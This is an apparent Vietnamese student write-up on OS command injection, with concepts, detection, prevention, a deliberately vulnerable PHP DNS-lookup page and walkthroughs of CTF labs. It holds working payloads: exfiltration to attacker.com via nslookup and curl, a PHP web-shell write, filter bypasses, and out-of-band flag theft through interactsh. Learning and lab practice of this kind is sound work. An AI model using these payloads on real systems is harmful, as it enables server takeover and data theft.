


# Task 4

Text: Task 4:
- Tìm hiểu tất cả mọi thứ có thể tìm hiểu được về command injection (khái niệm, cách nhận biết, hướng khai thác, cách phòng tránh, phân loại theo hướng tấn công)
- Dựng lại lỗ hổng này với php hoặc bất kỳ ngôn ngữ khác và viết write up khai thác web đã dựng
- Tìm hiểu một số kĩ thuật bypass command injection phổ biến và demo tích hợp với web ở trên
- Làm 7 bài sau:
https://battle.cookiearena.org/challenges/web/nslookup-level-1https://battle.cookiearena.org/challenges/web/nslookup-level-2https://battle.cookiearena.org/challenges/web/nslookup-level-3https://battle.cookiearena.org/challenges/web/ethical-ping-pong-clubhttps://battle.cookiearena.org/challenges/web/blind-command-injectionhttps://battle.cookiearena.org/skills-path/os-command-injection/challenge/command-limit-lengthhttps://battle.cookiearena.org/skills-path/os-command-injection/challenge/time

LƯU Ý: Viết write up đầy đủ
DEADLINE: 24h 25/6https://battle.cookiearena.org/challenges/web/nslookup-level-1

# I. Command injection

## 1. Khái niệm

- **OS command injection còn được gọi là shell injection,** là một lỗ hổng bảo mật cho phép kẻ tấn công **chèn và thực thi các lệnh hệ điều hành** (OS command) trên server thông qua một ứng dụng web. Nó cho phép kẻ tấn công thực thi các lệnh hệ điều hành (OS) trên máy chủ đang chạy ứng dụng và thường xâm phạm hoàn toàn ứng dụng cũng như dữ liệu của nó. Thông thường, kẻ tấn công có thể tận dụng lỗ hổng chèn lệnh hệ điều hành để xâm phạm các phần khác của cơ sở hạ tầng lưu trữ và khai thác các mối quan hệ tin cậy để chuyển cuộc tấn công sang các hệ thống khác trong tổ chức.
- Một số lệnh phổ biến trên windows và linux



## 2. Dấu hiệu nhận biết

- Chạy shell command trực tiếp từ input người dùng với các hàm như:
    - PHP: `system()` : chạy lệnh hệ điều hành và in kết quả trực tiếp ra output system("ls -la");
        - `exec()` : chạy lệnh nhưng không hiển thị output trực tiếp, được lưu vào biến hoặc mảng
            
            exec("ls -la", $output);
            print_r($output);
            
        - `passthru()`
        - `shell_exec()` : chạy lệnh và trả toàn bộ kết quả đầu ra dưới dạng chuỗi
            
            $output = shell_exec("ls -la");
            echo $output;
            
        - `popen()`
        - `proc_open()`
    - Python: `os.system()`, `subprocess.Popen()`, `subprocess.call()`
    - NodeJS: `child_process.exec()`, `spawn()`
    - Java: `Runtime.getRuntime().exec()`
- Input không được validate, sanitize đúng cách.
- Các chức năng có vẻ thao tác với hệ thống: ping, traceroute, DNS lookup, convert file, upload, backup...
- Đầu vào không lọc các ký tự đặc biệt như `;`, `&`, `|`, `\n`, `$()`, backtick ```.

## 3. Phân loại theo hướng tấn công

- Classic Command injection : kết quả được hiển thị trực tiếp trên giao diện
    
        payload ví dụ: `127.0.0.1; cat /etc/passwd`
    
- Blind Command
    - Error-based injection: kết quả lộ qua lỗi hệ thống ( error messages)
    - Time-based injection: dựa vào thời gian delay, dùng các lệnh như `sleep`  `ping -c 10 127.0.0.1`
        
        payload ví dụ: `127.0.0.1; sleep 10`
        
    - Out-of-band injection: gửi dữ liệu qua kênh khác ( như DNS, HTTP)
        
        payload ví dụ: `127.0.0.1; nslookup `whoami`.attacker.com`
        
    - File injection: ghi dữ liệu vào file để thực thi
        
        payload ví dụ: `127.0.0.1; echo '<?php system($_GET["cmd"]); ?>' > /var/www/html/shell.php` 
        

## 4.Hướng khai thác

- Bước 1: Nhận diện điểm đầu vào có thể kiểm soát
    
    **Quan sát ứng dụng** xem có chỗ nào gửi **dữ liệu từ người dùng vào chức năng hệ thống** như:
    
    - Chức năng ping, nslookup, traceroute, convert file, kiểm tra tên miền...
    - Upload file hoặc cấu hình backup (hay cho phép đặt tên file/log).
    - Đường dẫn có thể bị ghi/chạy.
    
      Ví dụ: form nhập IP để ping, hoặc URL có query ?ip=...
    
- Bước 2: Kiểm tra phản ứng với payload cơ bản
    - 127.0.0.1; whoami                   : chạy cả 2 lệnh
    - 127.0.0.1 && whoami             : chạy lệnh sau nếu lệnh trước thành công   (AND)
    - 127.0.0.1 | whoami                  : toán tử pipe lấy output lệnh trước làm input cho lệnh bên phải
    - 127.0.0.1 || echo vulnerable    : chạy lệnh sau nếu lệnh trước thất bại    (OR)
    - 127.0.0.1 & whoami                : chạy lệnh ngầm cả 2 lệnh
    
     Nếu output xuất hiện hoặc bị lỗi bất thường (500, 502...) thì có khả năng có lỗ hổng.
    
- Bước 3: Kiểm tra loại lỗ hổng ( Classic hay Blind )
    - **Classic**: có thể thấy output trả về.
    
           ➡️ Tiến hành khai thác bình thường: `ls`, `cat /etc/passwd`, `id`, `whoami`...
    
    - **Blind**: không thấy kết quả → dùng:
        - **Time-based**: `127.0.0.1; sleep 5`
        
        → Nếu server chậm phản hồi ⇒ time-base
        
        - **OOB-based (DNS/HTTP)**:
        
        `nslookup $(whoami).your-subdomain.dnslog.cn
        curl [attacker.com?d=$(whoami)](http://attacker.com/?d=$(whoami))`
        
- Bước 4: Xác định hệ điều hành 
 Dùng lệnh như `uname -a` (Linux) hoặc `ver`, `whoami` (Windows) để kiểm tra.
- Bước 5: Khai thác
    
       Sau khi xác định được lỗ hổng và hệ thống:
    
    - Lấy thông tin người dùng: `whoami`, `id`
    - Liệt kê thư mục: `ls -la`, `dir`
    - Đọc file nhạy cảm: `/etc/passwd`, `config.php`, `.env`
    - Ghi file `echo "<?php system(\$_GET['cmd']); ?>" > /var/www/html/shell.php`

## 5. Cách phòng tránh command injection

| **Không bao giờ** chèn trực tiếp input vào shell command | Thay vào đó dùng API hoặc thư viện hệ thống |
| --- | --- |
| Dùng whitelist input | Chỉ chấp nhận input hợp lệ rõ ràng |
| Escape đầu vào với hàm an toàn | Ví dụ: `escapeshellarg()` trong PHP |
| Dùng hàm không gọi shell trực tiếp | Ví dụ: trong Python dùng `subprocess.run(['ping', '127.0.0.1'])` thay vì `os.system()` |
| Thiết lập quyền hạn người dùng hạn chế | Tài khoản chạy ứng dụng không có quyền root |
| Kiểm tra input qua regex | Đảm bảo không chứa ký tự đặc biệt |

# II. Dựng trang web chứa command injection

1. Demo trang web và khai thác lỗ hổng

```python
<!DOCTYPE html>
<html lang="en">
<head>
    <title>DNS lookup (Vulnerable command injection)</title>
</head>
<body>
    <h1>DNS lookup</h1>
    <form method="GET">
        Nhập domain:<input type="text" name="domain" placeholder="example.com">
        <input type="submit" value="Lookup">
    </form>
    <?php
    if(isset($_GET['domain'])){
        $domain=$_GET['domain'];
        $cmd="nslookup ".$domain;
        echo "<pre>";
        system($cmd);
        echo "</pre>";
    }
    ?>
</body>
</html>
```


- Trang web đơn giản dùng để phân giải địa chỉ miền DNS lookup có chứa lỗ hổng command injection ở việc sử dụng thẳng lệnh  `system($cmd)` mà không mã hóa hay escape ký tự
- nhập vào `google.com&whoami`


đã thấy xuất hiện tên người dùng vì nối thêm lệnh whoami trên windows

1. Các cách sửa lỗ hổng
    - sử dụng hàm `escapeshellarg` để escape các chuỗi đầu vào
    
        $domain = escapeshellarg($_GET['domain']);
    
    - sử dụng hàm API PHP chính thống thay vì hàm system
    
    $ip = gethostbyname($_GET['domain']);
    echo htmlspecialchars($ip);
    

# III. Các bài lab trên cookie arena

1. **NSLookup (Level 1)**

  


ta thấy lỗ hổng nằm ở lệnh thực thi hệ thống `shell_exec` và biến `$_GET` không được sàng lọc đầu vào 

và ta biết flag nằm ở file /flag.txt nên ta sử dụng payload `127.0.0.1; cat /fla.txt`


server chạy lệnh cat và hiển thị ra file flag, tìm được flag

1. **NSLookup (Level 2)**

thử nhập `127.0.0.1; cat /flag.txt` 


ta thấy bị NXDOMAIN tức là Non-Existent Domain, và các dấu bị mã hóa hoặc escape 


ta thấy đoạn lỗ hổng dùng lệnh shell_exec nhưng sử dụng biến $domain trong dấu ‘’ nên ta phải thoát dấu ‘ và chèn lệnh hệ thống rồi dùng dấu # để comment đoạn 

`127.0.0.1’; cat /flag.txt #` 


ta tìm được 

1. **NSLookup (Level 3)**
- nhập thử **`NSLookup (Level 3)` thì thấy hiện**


- mở souce code web thì thấy đoạn javascript được gắn vào


đây là một hàm để kiểm tra input nhập vào có đúng định dạng domainPattern kia không, nếu không thì hiện hàm alert và return false để không thực thi đoạn sau. Vì vậy ta dùng burp suite để gửi payload để tránh đi qua đoạn javascript này 

- Thay thế payload [google.com](http://google.com) bằng google.com’; find `/flag?????.txt #`


- tìm được file flag kia, vì không thể dùng `cat`   nên ta sẽ dùng awk, cấu trúc của lệnh awk là

awk 'condition { action }' filename

awk là trình xử lý văn bản, khi khối lệnh action để trống thì mặc định là in file đó ra

- sử dụng payload `'; awk 1 /flag3k65f.txt #`      với 1 là điều kiện luôn đúng


ta tìm được flag

1. **Ethical Ping Pong Club**
- Thử lần lượt tất cả các dấu ; & && | || đều bị chặn

ví dụ `127.0.0.1; cat /flag.txt`


tức là cả dấu cách cũng bị chặn 

- sử dấu dấu xuống dòng thay vì dấu `;` và dấu `<` để chuyển hướng từ file vào lệnh thay vì dấu space

`127.0.0.1%0acat</flag.txt`



1. **Blind Command Injection**
- đề nói chỉ khi method khác GET thì dòng os.system(cmd) mới chạy tức là mới thực thi command
- dùng burp suite chặn requests GET /?cmd=abc rồi sửa method GET thành POST, ta nhận được


tức là chỉ cho phép method GET, HEAD, OPTIONS , phương thức HEAD là gửi dữ liệu nhưng chỉ nhận về phần head 

- thử ping tới địa chỉ của burp collaborator


ta nhận được ping từ burp collaborator


- liệt kê các file có trên server bằng `HEAD /?cmd=ping+wpp4ldpll2nrynkkw466lsllyc42sr.burpcollaborator.net`


thấy tên file là run.py

- mở file /flag.txt bằng `HEAD /?cmd=nslookup+$(cat+/flag.txt).wyadlahmohhzshswoaqrqwkp1y9o8eogo.oast.fun` và sử dụng tên miền tạm trên [https://app.interactsh.com/](https://app.interactsh.com/)

ta được 


1. **Command Limit Length**
- thử nhập whoaim


bị giới hạn chỉ là 5 ký tự

- và các lệnh ls, cat,.. cũng bị chặn


- bypass lệnh `ls`  bằng dấu ‘ như sau `'l's`


- tạo file rỗng tên là cat bằng `>cat` , sau khi ls ra để kiểm tra thì đã có file cat lên đầu vì chúng sắp xếp theo bảng chữ cái


- nhập lệnh `*` khi đó shell sẽ in toàn bộ các file ra và file cat mình tạo ở đầu tiên nên nó sẽ coi đó là lệnh cat và các file ở sau là tham


lúc này web đã hiển thị flag nhưng màn hình bị hiển thị thiếu nên cố gắng bôi đen toàn bộ màn hình thì sẽ copy được flag, hoặc cố gắng di chuyển dòng chữ flag sang bên trái để hiển thị toàn bộ 


1. Time
    - mở souce code có 2 file là TimeController.php 1 và TimeModel.php 2
        
        Note: `class` là một khuôn mẫu( template) để tạo ra các đối tượng (object), lập trình hướng đối tượng.
        
            `public` để định nghĩa phạm vi truy cập, bất kỳ đâu cũng có thể sự dụng hàm này( `private`: chỉ được truy cập trung nội bộ 
        
            `protected`: truy cập trong class và class con (kế thừa))
        
    - Phân tích file TimeController.php
    
    ```python
    <?php
    class TimeController
    {
        public function index($router)
        {
            $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
            $time = new TimeModel($format);
            return $router->view('index', ['time' => $time->getTime()]);
        }
    }
    ```
    
             - định nghĩa một lớp TimeController và một hàm public có tên index truyền vào $router
    
       - nếu có method GET có truyền vào tham số $format (tức là URL có tham số $format) , lệnh `date` trong linux để in time hiện tại        và hay đi với tham số định dạng như `date '+%H:%M:%S'`
    
       - sau đó nó sẽ truyền tham số $format vào TimeModel để biết cách định dạng thời gian
    
       - sau đó in thời gian đã định dạng ra màn hình
    
    - Phân tích file TimeModel.php
    
    ```python
    <?php
    class TimeModel
    {
        public function __construct($format)
        {
            $this->command = "date '+" . $format . "' 2>&1";
        }
    
        public function getTime()
        {
            $time = exec($this->command);
            $res  = isset($time) ? $time : '?';
            return $res;
        }
    }
    ```
    
           - `$this->command` xây dựng một lệnh shell 
    
     - tạo hàm getTime và tạo biến $time chạy `exec` để thực thi lệnh hệ thống 
    
     - nếu $time tồn tại thì gán vào biến $res còn không thì gán ?
    
     - cuối cùng là trả về biến $res
    
    - Lỗ hổng là truyền tham số format vào url và trang web lấy tham số đó đưa thẳng vào lệnh date mà không kiểm tra input
    
    
    
         
    

